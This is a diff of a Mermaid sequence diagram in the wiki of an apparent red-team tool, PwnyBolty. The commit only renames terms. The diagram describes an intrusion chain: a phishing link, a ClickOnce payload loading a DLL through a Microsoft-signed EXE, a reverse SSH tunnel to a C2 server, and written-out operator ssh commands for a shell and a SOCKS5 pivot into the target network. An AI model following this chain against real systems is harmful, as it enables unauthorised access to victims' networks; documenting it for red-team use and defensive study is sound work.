

Before and after one commit to mr-rizwan-syed/PwnyBolty: the sixth of 7 diagrams in WIKI.md, drawn with Mermaid. The commit also changed other lines of this file, not shown here.

Commit message:
WIKI: use ssh/sshd terminology; document Files Prefix customization

````diff
--- a/WIKI.md
+++ b/WIKI.md
@@ -159,23 +161,23 @@
 ```mermaid
 sequenceDiagram
     actor Operator
     participant Caddy as File Server
     participant Target as Target Machine
     participant C2 as C2 Server
 
     Operator->>Target: Send phishing link (phish.html)
 
     Target->>Caddy: GET payload.application
     Caddy-->>Target: ClickOnce manifest + all .deploy files
 
-    Note over Target: Microsoft-signed EXE launches<br/>AppDomainManager loads Bolthole.dll<br/>DLL extracts BoltFiles to %TEMP%<br/>Starts boltd on 127.0.0.1:<tunnel_port><br/>Starts boltcon — tries ports 443 → 80 → 22 → ...
+    Note over Target: Microsoft-signed EXE launches<br/>AppDomainManager loads Bolthole.dll<br/>DLL extracts BoltFiles to %TEMP%<br/>Starts sshd on 127.0.0.1:<tunnel_port><br/>Starts ssh client — tries ports 443 → 80 → 22 → ...
 
     Target->>C2: Reverse SSH tunnel established
-    Note over C2: Tunnel port (e.g. 31332) now reachable<br/>SOCKS5 proxy bound on configured socks_port
+    Note over C2: SSH tunnel port (e.g. 31332) now reachable<br/>SOCKS5 proxy bound on configured socks_port
 
     Operator->>C2: ssh -i operator_key -p 31332 user@c2
     C2-->>Operator: Interactive shell on target machine
 
     Operator->>C2: ssh -D 1080 -i operator_key -p 31332 user@c2
     C2-->>Operator: SOCKS5 pivot into target network
 ```
````
